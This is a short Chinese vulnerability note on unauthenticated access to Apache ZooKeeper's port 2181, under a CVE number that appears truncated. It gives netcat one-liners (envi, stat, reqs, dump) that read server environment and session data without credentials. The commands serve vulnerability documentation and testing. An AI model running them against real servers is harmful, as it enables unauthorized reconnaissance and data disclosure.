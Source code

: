 # Apache ZooKeeper 未授权访问漏洞 CVE-2014-085

默认安装配置完的zookeeper允许未授权访问，管理员未配置访问控制列表（ACL）。导致攻击者可以在默认开放的2181端口下通过执行envi命令获得大量敏感信息（系统名称、java环境）导致任意用户可以在网络不受限的情况下进行未授权访问读取数据

## 漏洞影响

```
Apache ZooKeeper
```

## 漏洞复现

Apache  ZooKeeper 默认开放 2181端口 ,使用如下命令获取敏感数据

```shell
echo envi | nc xxx.xxx.xxx.xxx 2181
```

![image-20220209122400884](./images/202202091224952.png)

其他信息

```shell
1、stat：列出关于性能和连接的客户端的统计信息。
echo stat |ncat 127.0.0.1 2181

2、ruok：测试服务器是否运行在非错误状态。
echo ruok |ncat 127.0.0.1 2181

3、reqs：列出未完成的请求。
echo reqs |ncat 127.0.0.1 2181
　　
4、envi：打印有关服务环境的详细信息。
echo envi |ncat 127.0.0.1 2181
　　
5、dump：列出未完成的会话和临时节点。
echo dump |ncat 127.0.0.1 2181
```